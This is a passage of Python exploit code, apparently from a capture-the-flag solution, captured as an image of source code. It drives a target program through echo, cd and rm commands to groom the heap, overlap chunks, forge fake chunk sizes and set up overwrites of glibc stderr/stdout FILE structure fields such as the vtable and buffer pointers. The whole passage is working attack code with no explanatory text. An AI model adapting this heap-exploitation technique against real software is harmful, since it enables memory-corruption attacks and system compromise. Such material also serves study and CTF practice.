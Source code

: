 ```python
      echo("5","5"*(0x50)) # tmp2
      echo("6","6"*(0x50)) # tmp1 overlapping on A
      echo("6",p64(0)+p64(adv3_size1 + 0x10 +0x1) + p64(0)*4 + p64(0) + p64(adv3_size1 + 0x10 + 0x1))
      
      # prepare fakesize
      echo("7",(p64(0)+p64(0x31))*((adv3_size1+0x120)//0x10))
      #raw_input("check overlap")

      print("[+] create overlapped chunks for ADV3 part1")
      cd("../")


      # prepare for ADV3  part2 in test3 ##########################

      # padding
      cd("./test6/")
      echo("1",p64(0x31)*0x10)

      # get overlapped chunk.
      LSB_A2 = 0xa0              # chunk A's LSB
      adv3_size2 = stderralloc_s
      cd("../test3")
      echo("1","\r"*(0x50))
      echo("2","2"*(0x20)) # A
      #raw_input("check A's LSB")
      echo("3","3"*(0x20)) # B
      echo("4","4"*(0x50))
      cd("../")
      rm("./test3/1")
      rm("./test3/4")
      cd("test3")
      echo("4",p8(LSB_A2))
      echo("5","5"*(0x50)) # tmp2
      echo("6","6"*(0x50)) # tmp1 overlapping on A
      echo("6",p64(0)+p64(adv3_size2 + 0x10 +0x1) + p64(0)*4 + p64(0) + p64(adv3_size2 + 0x10 + 0x1))

      # prepare fakesize
      echo("7",(p64(0)+p64(0x31))*((adv3_size2+0x120)//0x10))
      #raw_input("check overlap")

      print("[+] create overlapped chunks for ADV3 part2")
      cd("../")


      # Allocate chunks for ADV2 #################################

      cd("./test4")
      print("[ ] dumpedend_s: "+hex(dumpedend_s))
      echo("1","B"*dumpedend_s)
      echo("2","B"*pedantic_s)
      echo("3","B"*stderrmode_s)
      echo("4","B"*stderrflags_s)
      echo("5","B"*stderrwriteptr_s)
      echo("6","B"*stderrbufbase_s)
      echo("7","B"*stderrvtable_s)
      echo("8","B"*stdoutmode_s)
      print("[+] create some chunks for ADV2")
      cd("../")


      # Connect to largebin and set NON_MAINARENA to 1 ######
```